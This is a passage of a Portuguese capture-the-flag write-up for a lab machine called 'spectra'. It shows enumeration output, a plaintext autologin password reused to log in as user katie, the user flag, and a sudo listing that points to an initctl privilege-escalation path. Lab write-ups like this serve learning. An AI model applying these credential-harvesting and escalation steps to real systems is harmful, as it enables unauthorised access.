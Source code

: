 ```plaintext
[+] Users with console
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
root:x:0:0:root:/root:/bin/bash

uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
uid=1001(chronos-access) gid=1001(chronos-access) groups=1001(chronos-access)
```

- MySQL  Ver 14.14 Distrib 5.7.20-19, for Linux (x86_64) using  6.3

- Possíveis chaves de SSH para máquina

```plaintext
/usr/share/chromeos-ssh-config/keys/authorized_keys
/usr/share/chromeos-ssh-config/keys/id_rsa
/usr/share/chromeos-ssh-config/keys/id_rsa.pub
```

- Arquivos passwd incomuns, sendo um deles para **autologin** e com a senha **SummerHereWeCome!!** presente

```plaintext
[+] Searching uncommon passwd files (splunk)
passwd file: /etc/autologin/passwd
passwd file: /etc/pam.d/passwd
passwd file: /usr/share/baselayout/passwd

/etc/autologin/passwd
-rw-r--r-- 1 root root 19 Feb  3 16:43 /etc/autologin/passwd
SummerHereWeCome!!
```

- Arquivo `user.txt` no home path da usuária **katie**, enumerado manualmente no que poderia ser visto no diretório de cada um dos usuários logados

Uma vez que encontramos algumas senhas, um usuário inclusive que já tínhamos conhecimento vide enumeração via HTTP, decidi testá-las para os usuários `katie` e `chronos`, tendo sucesso com a seguinte combinação: **katie:SummerHereWeCome!!**

Com acesso neste perfil realizado leitura da flag presente em seu home directory

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ cat user.txt
e89d27fe195e9114ffa72ba8913a6130
katie@spectra ~ $
```

## Root flag

já que temos a senha da usuária katie, a primeira coisa a fazer, já que temos sua senha, é verificar se ela possui algum privilégio de sudo, o qual retornou a seguinte entrada

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra ~ $
```
